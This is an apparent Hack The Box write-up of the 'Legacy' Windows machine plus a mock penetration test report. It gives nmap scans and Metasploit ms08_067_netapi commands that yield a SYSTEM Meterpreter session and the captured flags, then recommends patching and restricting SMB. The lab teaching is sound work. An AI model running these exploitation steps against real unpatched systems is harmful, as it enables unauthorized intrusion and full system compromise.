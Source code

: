 ```yaml
---
title: Legacy HTB — Full Walkthrough
published: 2025-06-23
description: A detailed walkthrough of the Legacy HTB Windows machine, covering reconnaissance, exploitation of the MS08-067 vulnerability, post-exploitation, and flag capture.
tags: [HTB, MS08-067, Windows, SMB, Metasploit, CTF]
category: Walkthrough
draft: false
---
```



# Legacy HTB — Exploit MS08-067 Walkthrough

**Difficulty:** Easy

**Platform:** Hack The Box

**Target:** Windows (Legacy machine)

**Objective:** Gain administrative access using the MS08-067 vulnerability and capture the user and root flags.

## 1. Reconnaissance

Perform a full TCP port scan and version enumeration:

```bash
nmap -p- -sV -sC -Pn -T4 legacy.htb  
```

**Findings:**

- SMB services running on ports 139 and 445.
- System vulnerable to MS08-067 (CVE-2008-4250).

Add the target to `/etc/hosts`:

```bash
echo "10.10.10.4 legacy.htb" | sudo tee -a /etc/hosts  
```

## 2. Exploitation with Metasploit

Start Metasploit:

```bash
msfconsole -q  
```

Search for the MS08-067 exploit module:

```bash
search ms08_067  
```

Select and configure the exploit:

```bash
use exploit/windows/smb/ms08_067_netapi  
set RHOSTS 10.10.10.4  
set LHOST <your_ip>  
```

Execute the exploit:

```bash
run  
```

**Result:** Successful exploitation grants a Meterpreter session.

## 3. Post-Exploitation

Verify the user context in the Meterpreter session:

```bash
getuid  
```

**Output:** `NT AUTHORITY\SYSTEM`

Navigate to the user’s desktop to capture the user flag:

```bash
cd "C:\Documents and Settings\john\Desktop"  
cat user.txt  
```

Navigate to the administrator’s desktop to capture the root flag:

```bash
cd "C:\Documents and Settings\Administrator\Desktop"  
cat root.txt  
```

## 4. Additional Vulnerability

The SMB service is also vulnerable to CVE-2017-0144 (EternalBlue), which could be exploited similarly using Metasploit or other tools.

## 5. Mitigation

To prevent exploitation of MS08-067 and similar vulnerabilities:

- Apply the official Microsoft patch for MS08-067.
- Update systems to supported versions and keep them patched.
- Monitor SMB traffic and restrict external access to SMB services.

## Lessons Learned

- Unpatched systems are highly vulnerable to known exploits like MS08-067.
- Metasploit simplifies the exploitation of critical vulnerabilities.
- SMB misconfigurations can expose systems to multiple attack vectors.
- Regular patching and network monitoring are essential for security.

# Penetration Test Report

**Client:** HTB

**Engagement:** Penetration Test - Windows Legacy Machine

**Date:** June 2025

**Consultant:** Hugo Leonor

## 1. Objective

Evaluate the security of the Windows Legacy machine (`legacy.htb`), identifying vulnerabilities that could allow unauthorized access and privilege escalation, culminating in administrative access.

## 2. Scope

- **Target IP:** 10.10.10.4
- **Services:** SMB (ports 139, 445)
- **Objective:** Gain administrative access and capture flags

## 3. Methodology

The approach followed standard penetration testing stages:

- Reconnaissance using Nmap for port and vulnerability scanning
- Exploitation of identified vulnerabilities using Metasploit
- Post-exploitation to verify access level and capture flags
- Identification of additional vulnerabilities and mitigation recommendations

## 4. Summary of Findings

| Stage | Key Result | Impact |
| --- | --- | --- |
| Reconnaissance | SMB ports open, MS08-067 vulnerability identified | Exposure to remote code execution |
| Exploitation | Successful RCE via MS08-067 using Metasploit | Administrative access gained |
| Post-Exploitation | NT AUTHORITY\\SYSTEM access, user and root flags captured | Full system compromise |
| Additional Vulnerability | CVE-2017-0144 (EternalBlue) identified | Potential for alternative exploitation |

## 5. Technical Details

### 5.1 Reconnaissance

Nmap scanning revealed open SMB ports (139, 445) and confirmed the system’s vulnerability to MS08-067, a known remote code execution flaw in the Windows SMB service.

### 5.2 Exploitation

The MS08-067 vulnerability was exploited using Metasploit’s `ms08_067_netapi` module, resulting in a Meterpreter session with SYSTEM privileges.

### 5.3 Post-Exploitation

With SYSTEM access, the user and root flags were retrieved from the respective desktop directories of the `john` and `Administrator` accounts.

### 5.4 Additional Vulnerability

The system was also found vulnerable to EternalBlue (CVE-2017-0144), indicating multiple unpatched flaws in the SMB service.

## 6. Impact and Risks

- **Full System Compromise:** Administrative access allows complete control over the system.
- **Unpatched Vulnerabilities:** MS08-067 and EternalBlue are well-known exploits, easily weaponized by attackers.
- **Exposed SMB Services:** Open SMB ports increase the attack surface, especially if accessible externally.

## 7. Recommendations

- Apply Microsoft’s patches for MS08-067 and CVE-2017-0144.
- Upgrade to a supported Windows version to avoid legacy vulnerabilities.
- Restrict SMB access to trusted networks and disable unnecessary SMB services.
- Implement network monitoring to detect and block exploit attempts.
- Conduct regular vulnerability scans and patch management.
